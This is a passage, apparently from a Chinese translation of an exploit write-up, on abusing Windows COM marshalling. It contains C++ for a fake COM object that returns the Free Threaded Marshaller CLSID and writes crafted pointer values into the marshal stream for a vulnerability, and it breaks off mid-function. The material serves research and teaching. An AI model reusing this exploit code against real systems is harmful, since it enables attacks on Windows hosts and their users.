![enter image description here](img/img9_u2_png.jpg)

为了执行我们的代码，我们需要在我们的 com 对象中调用 IMarshal 接口。特别是我们需要执行两个函数，Imarshal::GetUnmarshalClass，当重构建代码的时候，会用到它返回要使用的 COM 对象的 CLSID。IMarshal::MarshalInterface，用来为漏洞打包合适的指针值。简单的例子如下：

```
GUID CLSID_FreeThreadedMarshaller = 
{ 0x0000033A, 0x0000, 0x0000, 
{ 0xC0, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x46, } };

HRESULT STDMETHODCALLTYPE CFakeObject::GetUnmarshalClass(
REFIID riid,
void *pv,
DWORD dwDestContext,
void *pvDestContext,
DWORD mshlflags,
CLSID *pCid)
{
memcpy(pCid, &CLSID_FreeThreadedMarshaller, 
sizeof(CLSID_FreeThreadedMarshaller));

return S_OK;
}

HRESULT STDMETHODCALLTYPE CFakeObject::MarshalInterface(
       IStream *pStm,
       REFIID riid,
       void *pv,
       DWORD dwDestContext,
       void *pvDestContext,
       DWORD mshlflags)
{
  pStm->Write(&_mshlflags, sizeof(_mshlflags), NULL);
  pStm->Write(&_pv, sizeof(_pv), NULL);
  pStm->Write(&_secret, sizeof(_secret), NULL);

```